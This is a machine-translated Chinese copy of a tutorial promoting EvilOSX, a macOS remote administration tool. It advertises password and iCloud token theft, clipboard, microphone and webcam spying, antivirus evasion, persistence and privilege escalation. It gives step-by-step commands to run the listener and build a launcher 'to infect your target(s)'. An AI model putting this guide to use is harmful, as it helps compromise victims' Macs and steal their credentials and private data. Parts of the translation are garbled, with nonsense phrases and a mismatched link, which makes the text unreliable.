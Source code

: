 # Evil OSX——MAC OS/OS X 的邪恶远程管理工具

> 原文：<https://kalilinuxtutorials.com/evilosx-remote-administration-tool/>

**EvilOSX** 是一款用于 MacOS / OS X 的邪恶远程管理工具，具有以下功能，如模拟终端实例、简单的可扩展模块系统、无 bot 依赖、未被反病毒检测、持久、GUI 和 CLI 支持、检索 Chrome 密码、检索 iCloud 令牌和联系人、检索/监控剪贴板、检索浏览器历史记录、通过 iTunes 为 iCloud 密码费西合唱团、iTunes (iOS)备份枚举、录制麦克风、使用网络摄像头拍摄桌面截图或图片，以及尝试通过本地权限升级获取 root 权限。

**也可以理解为[auto scack-hash cat 包装器，帮助自动化破解过程](https://kalilinuxtutorials.com/autocrack-hashcat-wrapper-cracking/)**

## **如何使用 EvilOSX**

### **普通用户**

*   **服务器**端要求 python3 运行。
*   **bot** 端是用已经安装在 macOS / OS X 上的 python2 编写的。
*   安装 python3 后，打开一个终端并键入以下内容:

```
**# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Install dependencies required by the server
$ sudo pip3 install -r requirements.txt

# Go into the repository
$ cd EvilOSX

# Start listening for connections
$ python3 start.py

# Lastly, run the built launcher (see the builder tab) on your target(s)**
```

**警告:**因为有效负载是为目标系统创建的(由服务器自动创建)，所以当任何机器人第一次连接时，服务器必须正在运行。

### **高级用户**

对于那些想通过 SSH 使用它的人，还有一个命令行界面:

```
**# Create a launcher to infect your target(s)
$ python3 builder.py

# Start listening for connections
$ python3 start.py --cli --port 1337

# Lastly, run the built launcher on your target(s)**
```

## **截图**

![](img//a7db401bdd0c091fcd4e1a52c398083d.png) ![](img//208d0f1cb282adedee6dd46d1c68d8ac.png)

[![https://github.com/Nekmo/dirhunt](img//d861a9096555aeb1980fc054015933d7.png)](https://github.com/Marten4n6/EvilOSX)